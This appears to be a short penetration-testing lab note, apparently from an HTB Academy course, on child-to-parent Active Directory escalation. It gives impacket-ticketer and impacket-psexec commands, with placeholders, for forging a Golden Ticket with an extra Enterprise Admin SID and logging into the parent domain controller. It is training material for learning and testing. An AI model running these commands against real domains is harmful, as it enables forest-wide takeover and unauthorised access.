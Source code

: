 ```yaml
---
tags:
  - linux
  - sid-abuse
---
```

Creates Golden Ticket just like with [[Mimikatz#Golden Ticket|Mimikatz]] and [[Rubeus#Golden Ticket|Rubeus]]
```shell-session
$ impacket-ticketer -nthash <KRBTGT-NTHASH> -domain <CHILD-DOMAIN-FQDN> -domain-sid <CHILD-DOMAIN-SID> -extra-sid <ENTERPRISE-ADMIN-SID> <USER>
```
This is saved as `.ccache` file which can be exported to `KRB5CCNAME` for usage and confirmed with [[klist]].

This should enable us to authenticate to parent domain's DC using [[PsExec]]:
```shell-session
$ impacket-psexec <CHILD-DOMAIN-FQDN>/<USER>@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip <DC-IP>
```
Alternatively, we can use [[raiseChild]] 